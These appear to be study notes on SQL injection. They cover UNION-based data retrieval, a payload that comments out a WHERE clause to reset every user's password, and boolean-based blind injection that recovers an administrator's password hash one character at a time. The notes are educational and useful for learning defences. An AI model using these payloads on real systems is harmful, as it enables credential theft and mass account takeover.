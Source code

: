 ### Union-Based SQLi

- Is an in-band SQLi technique that leverages the UNION SQL operator to combine the results of two queries into a single result set
- Input:

```sql
# retrieving data from another table
http://www.random.com/app.php?id=’ UNION SELECT username, password FROM users; --

# update all passwords from a table with POST method
http://www.random.com/app.php?new_password="password12345';--"
query = UPDATE Users SET Password='password12345';-- WHERE Id = 2;

--- The WHERE clause, which specifies the criteria of the rows that should be updated, is commented out in this query. The database would update all rows in the table, and change all of the passwords in the Users table to password12345. The attacker can now log in as anyone by using that password
```

## Inferential (Blind) SQL Injection

- SQLi vuln where there is no actual transfer of data via the  webapp
- Just as dangerous as in-band SQLi
    - Attacker be able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server
- Takes longer to exploit than in-ban sql injection

### Boolean-based SQLi

- Uses boolean conditions to return a different result depending on whether the query returns a TRUE or FALSE result.

```sql
www.random.com/app.php?id=1
select title from product where id=1
#Payload 1 (false)
www.random.com/app.php?id=1 and 1=2
select title from product where id=1 and 1=2
#Payload 2 (true)
www.random.com/app.php?id=1 and 1=1
select title from product where id=1 and 1=1 
```

```sql
User table:
Administrator / e3c3889ded99ej29dj9edjdje992
SUBSTRING(a,b,c): function that select a part of a string a: the string, b:the first posicion, c=how many chars
#Payload1
www.random.com/app.php?id=1 and SUBSTRING((SELECT Password FROM Users WHERE Username ='Administrator'), 1, 1)='s'
#Query
select title from product where id=1 and SUBSTRING((SELECT Password FROM Users Where Username='Administrator'),1,1)='s'
#result: nothing is returned because is false

#Payload 2
www.random.com/app.php?id=1 and SUBSTRING((SELECT Password FROM Users Where Username='Administrator'),1,1)='e'
#Query
select title from product where id=1 and SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1)='e'
#result: Returned true, the tile of product id 1 is returned bc "e" is the first character of the hashed pass
```
